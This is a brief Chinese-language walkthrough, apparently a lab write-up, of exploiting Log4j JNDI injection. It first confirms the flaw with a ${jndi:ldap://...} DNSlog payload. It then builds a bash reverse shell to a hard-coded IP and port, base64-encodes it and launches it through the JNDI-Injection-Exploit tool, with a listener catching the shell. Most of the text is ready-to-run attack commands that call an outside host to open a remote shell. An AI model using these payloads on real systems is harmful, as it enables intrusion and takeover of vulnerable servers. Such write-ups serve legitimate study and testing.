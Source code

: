 ###### 1.DNSlog验证

首先再DNSlog获取域名，构造payload：payload=${jndi:ldap://tr2gk6.dnslog.cn}

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg)

 

[![XqQMl9.md.png](https://s1.ax1x.com/2022/06/17/XqQMl9.md.png)](https://imgtu.com/i/XqQMl9)



DNSlog网站接收到解析记录，说明存在漏洞

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

 

###### **2.** JNDI注入反弹shell

首先下载好JNDI注入工具，上传到云服务器上

 

反弹shell指令:

bash -i >& /dev/tcp/124.222.155.178/8888 0>&1

 

进行base64编码

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)

 

JNDI启动:

第一处标红部分是经过base64编码过后的指令，第二处是监听服务器的IP地址。

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,CmJhc2ggLWkgPiYgL2Rldi90Y3AvMTI0LjIyMi4xNTUuMTc4Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" -A 124.222.155.178

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image008.jpg)

测试了用前两个都不行，使用第三个监听到了

 

设置监听

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image010.jpg)

 

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image012.jpg)

 

反弹成功

![img](file:///C:/Users/zhong/AppData/Local/Temp/msohtmlclip1/01/clip_image014.jpg)

 

 
